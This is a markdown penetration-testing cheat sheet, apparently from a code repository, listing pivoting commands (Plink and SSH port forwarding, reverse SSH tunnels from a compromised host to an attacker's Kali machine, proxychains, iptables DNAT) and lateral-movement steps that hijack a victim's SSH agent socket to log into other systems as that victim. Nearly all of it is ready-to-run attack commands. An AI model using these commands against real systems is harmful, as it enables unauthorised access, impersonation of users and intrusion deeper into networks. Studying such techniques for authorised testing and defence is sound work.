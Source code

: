 ### <--- Pivoting ---> ###

#### Plink Remote Port Forwarding ####

```plink -l $user -pw $password $attacking_machine_ip -R $attacker_port_to_open:127.0.0.1:$victim_port```

```$command 127.0.0.1:$attacker_port```

#### SSH Remote Port Forwarding ####

```ssh user@target_ip -R $remote_port:127.0.0.1:$local_port```

#### SSH Local Port Forwarding ###

```ssh user@target_ip -L $initiating_ip:$initiating_port:$target_ip:$target_port```

#### SSH Dynamic Port Forwarding ###

##### Create a Local SOCKS4 Proxy ####

*Example: ssh -D 8080 root@pwned.com*

```ssh -D $local_proxy_port -p $remote_port $target```

#### Using Proxychains ####

##### Create a reverse SSH tunnel to attacker from compromised host #####

```ssh -f -N -R 2222:127.0.0.1:22 root@kali```

#####  Create a dynamic application-level port forward on port 8080 on attacking machine #####

```ssh -f -N -D 127.0.0.1:8080 -p 2222 user@local```

##### Set proxychains  #####

```nano /etc/proxychains.conf```

```socks4 127.0.0.1 8080```

#### IPTables ####

*NOTE: https://www.andreafortuna.org/2019/05/08/iptables-a-simple-cheatsheet/*

```iptables -t nat -A PREROUTING -p tcp -d 1.2.3.4 --dport 422 -j DNAT --to 192.168.0.100:22```

### <--- Lateral Movement ---> ###

#### SSH Hijack: Abusing SSH Agents to intercept the "SSO Like Token"  ####

**NOTE: https://xorl.wordpress.com/2018/02/04/ssh-hijacking-for-lateral-movement/**

##### Check logins #####

```w```

```cd /var/logs```

```grep -R -i root . -a```

```cd /etc/ssh```

```nano ssh_config```

**Is 'ForwardAgent == yes'?**

```cd /tmp```

*NOTE: Remove existing ssh-* files from grepping to remove active sessions*

```watch -n 1 "ls | grep -v 'ssh-$?\|ssh-$?'"```

*NOTE:  Wait for new event to appear*

```cd ssh-new-event```

```ls```

```SSH_AUTH_SOCK=agent-$? ssh root@target -p 2222```

*NOTE: Try without port two. This example is copied from Ippsec.*

#### SSH Hijack 2 ####

*NOTE: https://xorl.wordpress.com/2018/02/04/ssh-hijacking-for-lateral-movement/*

##### Attacker finds the SSHd process of the victim #####

```ps uax|grep sshd```
 
##### Attacker looks for the SSH_AUTH_SOCK on victim's environment variables #####

```grep SSH_AUTH_SOCK /proc/<pid>/environ```
 
##### Attacker hijack's victim's ssh-agent socket #####

```SSH_AUTH_SOCK=/tmp/ssh-XXXXXXXXX/agent.XXXX ssh-add -l```
 
##### Attacker can login to remote systems as the victim #####

```ssh remote_system -l victim```
